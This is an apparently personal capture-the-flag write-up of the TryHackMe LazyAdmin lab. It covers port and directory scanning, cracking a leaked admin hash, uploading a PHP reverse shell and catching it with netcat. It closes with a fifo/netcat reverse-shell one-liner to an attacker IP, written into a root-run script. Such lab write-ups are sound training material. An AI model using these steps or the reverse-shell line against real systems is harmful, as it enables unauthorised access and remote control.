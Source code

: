 ### LazyAdmin


####  Lazy Admin

What is the user flag?
- THM{63e5bce9271952aad1113b6f1ac28a07}


What is the root flag?


Enumeration:

Nmap scan:

Ports 22 and 80 are open:

```
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/LazyAdmin]
└─$ nmap -sC -sV -oN nmap_results.txt 10.10.35.168 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-19 22:01 EDT
Nmap scan report for 10.10.35.168
Host is up (0.64s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 129.38 seconds
                                                                                                                       
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/LazyAdmin]
└─$ 

```


Gobuster scan:

```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u "http://10.10.35.168:80" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -o /home/kali/ken/MoonShine/CTF/LazyAdmin/gobuster_scan.txt -t 64 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.35.168:80
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/08/19 22:02:22 Starting gobuster in directory enumeration mode
===============================================================
/content              (Status: 301) [Size: 314] [--> http://10.10.35.168/content/]
Progress: 935 / 220561 (0.42%)                                                   ^C
[!] Keyboard interrupt detected, terminating.
                                                                                  
===============================================================
2022/08/19 22:02:38 Finished
===============================================================
                                                                                                                       
┌──(kali㉿kali)-[~]
└─$ 

```

Going to /content page, we can see that there is a maintenance page, so we enumerate the /content page further using gobuster:


```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u "http://10.10.35.168/content" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -o /home/kali/ken/MoonShine/CTF/LazyAdmin/gobuster_scan2.txt -t 64
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.35.168/content
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/08/19 22:05:02 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 321] [--> http://10.10.35.168/content/images/]
/js                   (Status: 301) [Size: 317] [--> http://10.10.35.168/content/js/]    
/inc                  (Status: 301) [Size: 318] [--> http://10.10.35.168/content/inc/]   
/as                   (Status: 301) [Size: 317] [--> http://10.10.35.168/content/as/]    
/_themes              (Status: 301) [Size: 322] [--> http://10.10.35.168/content/_themes/]
/attachment           (Status: 301) [Size: 325] [--> http://10.10.35.168/content/attachment/]
Progress: 7455 / 220561 (3.38%)                                                             ^C
[!] Keyboard interrupt detected, terminating.
                                                                                             
===============================================================
2022/08/19 22:06:28 Finished
===============================================================
                                                                                                                       
┌──(kali㉿kali)-[~]
└─$ 

```

Using trial and error, we go to every pages, looking for possible attack vectors and low hanging fruit:

![[Pasted image 20220819220737.png]]

Looking further, we see that there is a mysql_backup folder and we will try to open the file:

![[Pasted image 20220819220836.png]]


Opening up the file, we can see that there are lying credentials on the file:

username: manager
password: hashed pw


![[Pasted image 20220819220959.png]]

Lets use crackstation to check the hash and hopefully we can get a plaintext password:

![[Pasted image 20220819221123.png]]

Password: Password123

Using those credentials, we can now login to 10.10.35.168/content/as/

![[Pasted image 20220819221220.png]]

After that, we can explore the website and found an ads page where we can advertise (keyword, advertise!) your code:

![[Pasted image 20220819221307.png]]

We can then craft a php reverse shell like so:

![[Pasted image 20220819221346.png]]

and upload it to the ads page:

![[Pasted image 20220819221442.png]]

We can now look for the reverse_shell.php code on the ip:80/content/inc and under ads, we can click our file:


![[Pasted image 20220819221556.png]]
![[Pasted image 20220819221608.png]]

Setup a netcat listener using port 1234, then stabilize the shell, the capture the first flag:


```

┌──(kali㉿kali)-[~]
└─$ nc -lnvp 1234                         
listening on [any] 1234 ...
connect to [10.4.73.167] from (UNKNOWN) [10.10.35.168] 60604
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 05:17:07 up 18 min,  0 users,  load average: 0.00, 0.05, 0.14
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@THM-Chal:/$ export TERM=xterm
export TERM=xterm
www-data@THM-Chal:/$ ^Z
zsh: suspended  nc -lnvp 1234
                                                                                                                      
┌──(kali㉿kali)-[~]
└─$ stty raw -echo; fg
[1]  + continued  nc -lnvp 1234

www-data@THM-Chal:/$ whoami
www-data
www-data@THM-Chal:/$ ls
bin    dev   initrd.img      lost+found  opt   run   srv  usr      vmlinuz.old
boot   etc   initrd.img.old  media       proc  sbin  sys  var
cdrom  home  lib             mnt         root  snap  tmp  vmlinuz
www-data@THM-Chal:/$ cd home && ls
itguy
www-data@THM-Chal:/home$ cd itguy && ls
Desktop    Downloads  Pictures  Templates  backup.pl         mysql_login.txt
Documents  Music      Public    Videos     examples.desktop  user.txt
www-data@THM-Chal:/home/itguy$ cat user.txt
THM{63e5bce9271952aad1113b6f1ac28a07}
www-data@THM-Chal:/home/itguy$ 


```






admin: manager
passwd : 42f749ade7f9e195bf475f37a44cafcb | Password123


rice:randompass


echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.4.73.167 5555 >/tmp/f" > /etc/copy.sh